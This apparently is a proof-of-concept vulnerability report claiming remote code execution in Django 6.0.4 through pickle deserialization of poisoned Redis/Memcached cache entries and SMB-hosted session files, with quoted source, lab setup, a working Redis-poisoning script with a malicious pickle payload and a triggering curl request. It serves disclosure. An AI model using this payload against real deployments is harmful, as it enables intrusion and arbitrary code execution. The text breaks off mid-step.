




# `Django` - Version `6.0.4` / Remote Code Execution (RCE) via Insecure Deserialization (Redis, Memcached & SMB/UNC Path Redirection)


* https://pypi.org/project/Django/
* https://github.com/django/django

## Introduction

**Below are one (1) way to reproduce RCE in `Django` using a cache poisoning attack, without authentication or local intervention by a third party to modify files that allow code execution during the deserialization process.**

**For this PoC, two (2) different devices were used to simulate the interaction between an attacking machine (Raspberry Pi with IP 192.168.1.90) and a victim machine (Windows with IP 192.168.1.88).**

## Vulnerability description

The vulnerability is a classic insecure deserialization flaw present in multiple Django cache backends. Both `RedisCache` and `MemcachedCache` (specifically `PyMemcacheCache`) rely on the `pickle` module by default to serialize and deserialize Python objects for storage. When the application retrieves data from these remote services (e.g., during session loading), the bytes returned from the network are passed directly to `pickle.loads()`.

If an attacker can influence the content of the cache—via an exposed Redis/Memcached port, SSRF, or lateral movement—they can achieve unauthenticated Remote Code Execution (RCE).

### The vulnerable code in `django/core/cache/backends/redis.py` (Redis):

```python
class RedisSerializer:
    def loads(self, data):
        try:
            return int(data)
        except ValueError:
            return pickle.loads(data) # <--- Critical Sink
```

### The vulnerable code in `django/core/cache/backends/memcached.py` (Memcached):

```python
class PyMemcacheCache(BaseMemcachedCache):
    def __init__(self, server, params):
        import pymemcache.serde
        # ...
        self._options = {
            # ...
            "serde": pymemcache.serde.pickle_serde, # <--- Uses pickle.loads internally
            **self._options,
        }
```

### Vector #2: Remote Code Execution (RCE) via SMB/UNC Path Redirection

On Windows, Django allows the configuration of various "Path Directives" (e.g., `SESSION_FILE_PATH`, `CACHES['default']['LOCATION']`). Because the underlying Python file operations (`open`, `os.path.join`) and Django's key-to-file logic resolve Universal Naming Convention (UNC) paths, an attacker can redirect the application to load serialized objects from a remote SMB share. This transforms a typically "local-only" file-based sink into a remote exploitation vector.

#### Vulnerable Code Path (`django/contrib/sessions/backends/file.py`):
```python
def load(self):
    # ...
    # Path Directive (LOCATION or SESSION_FILE_PATH) can be \\attacker-ip\share
    with open(self._key_to_file(), encoding="ascii") as session_file:
        file_data = session_file.read()
    if file_data:
        session_data = self.decode(file_data) # <--- Triggers pickle.loads
```


## Technical Impact Analysis

### Project Purpose & Context

Django is one of the most widely used web frameworks in the Python ecosystem. To manage user state and optimize performance, it relies heavily on session and caching backends. In high-traffic or distributed environments, Redis is the industry standard for these tasks. By default, Django trusts the data returned from these backends as "vetted" and safe for execution-related tasks like object reconstruction.

### Platform & Deployment Environment

This vulnerability is particularly critical in modern cloud and containerized environments (Kubernetes, AWS/GCP). In these settings, services like Redis are often shared between multiple microservices or exposed within the cluster without authentication. The assumption that the "internal network" is secure allows this vector to bypass traditional perimeter defenses.

### Comprehensive Risk Assessment

The risk is classified as **Critical**. An attacker does not need to be authenticated to the Django application or have any local access to the server's filesystem. Control over the data-tier (Redis or Memcached) is enough to pivot into the application-tier. In multi-tenant environments, shared cache clusters, or networks vulnerable to SSRF, this leads to immediate lateral movement and full system compromise.

Furthermore, Windows-based deployments face a unique "Path Redirection" risk. If any part of the application allows for the injection or manipulation of a filesystem path setting—common in CI/CD pipeline automation or misconfigured management interfaces—an attacker can force a remote resource load over SMB. This bypasses the typical security assumption that filesystem-based persistence is inherently safer than network-based persistence.


## Attack Scenario

### Who wants to exploit a particular vulnerability?

An attacker who has gained initial access to a corporate network, identifies an unauthenticated internal Redis or Memcached instance, or discovers an SSRF (Server-Side Request Forgery) vulnerability in a microservice that can reach the internal infrastructure.

### For what gain?

The gain is unauthenticated Remote Code Execution (RCE). This allows the attacker to execute arbitrary commands under the privileges of the Django service account, providing a foothold for data exfiltration, service disruption, or further lateral movement into the cloud infrastructure.

### In what way?

The attacker uses a Redis/Memcached client to set a specific key in the cache that corresponds to a Django Session ID. By visiting the application with a `sessionid` cookie matching the poisoned key, the attacker forces Django's `SessionMiddleware` to fetch the malicious payload from the infrastructure and pass it to the `pickle.loads()` sink.

# Reproduction steps

## On Windows (victim) - IP 192.168.1.88

```
(.venv) PS L:\Pickle-RCE-Finder\PYPI-django> Get-NetIPAddress -AddressFamily IPv4 | Where-Object PrefixOrigin -eq "Dhcp" | Select-Object -ExpandProperty IPAddress
192.168.1.88
(.venv) PS L:\Pickle-RCE-Finder\PYPI-django>
```

1. Create a `.venv`, activate it, and install the latest updated version (`6.0.4`) of `Django` using `pip install Django`.
2. Install redis package `pip install redis` and then, deploy Redis in a Docker container `docker run --name my-redis -p 6379:6379 -d redis`
3. Create a minimilist web app project `python -m django startproject vulnerable_project .`
4. Modify `vulnerable_project/settings.py` to use Redis for both caching and session storage; ensure pickle is the serializer (default in Django 6.0.4 for RedisCache). 

Add or modify these settings:

```python
CACHES = {
    "default": {
        "BACKEND": "django.core.cache.backends.redis.RedisCache",
        "LOCATION": "redis://127.0.0.1:6379",
    }
}

# Force sessions to be stored in the cache
SESSION_ENGINE = "django.contrib.sessions.backends.cache"
SESSION_CACHE_ALIAS = "default"
```

And allow any IP address to reach the web, as real world system deployed in production environment in `vulnerable_project/settings.py`

```
ALLOWED_HOSTS = ['*']
```

5. And start the server:

```
python manage.py runserver 0.0.0.0:8000
```



## On the Raspberry (attacker) - IP 192.168.1.90

```bash
kw0@kw0l4b:~ $ hostname -I | awk '{print $1}'
192.168.1.90
kw0@kw0l4b:~ $
```

Run the specialized `poison.py` script to generate and inject the poisoned session ID into `Redis`:

```python
import redis
import pickle
import base64

# Configuration
REDIS_HOST = '192.168.1.88'
REDIS_PORT = 6379
# This matches the sessionid we will use in the cookie
SESSION_ID = 'pwned_session_1337'
# Django session cache prefix (Default format is ':1:key')
CACHE_KEY = f":1:django.contrib.sessions.cache{SESSION_ID}"

class RCE:
    def __reduce__(self):
        # Using the Universal Pattern from  to ensure 
        # Cross-Platform compatibility (Linux -> Windows)
        return (eval, ("__import__('os').system('calc.exe') or {}",))

def poison_redis():
    print(f"[*] Connecting to Redis at {REDIS_HOST}:{REDIS_PORT}...")
    r = redis.Redis(host=REDIS_HOST, port=REDIS_PORT, db=0)
    
    # Create the malicious payload
    payload = RCE()
    pickled_payload = pickle.dumps(payload)
    
    print(f"[*] Poisoning key: {CACHE_KEY}")
    # Django's RedisCache stores the pickle directly
    r.set(CACHE_KEY, pickled_payload)
    print("[+] Cache poisoned successfully!")

if __name__ == "__main__":
    poison_redis()
```

Run the exploit deserialization:

```bash
curl -v http://192.168.1.88:8000/admin/ --cookie "sessionid=pwned_session_1337"
```




And in the victim host:

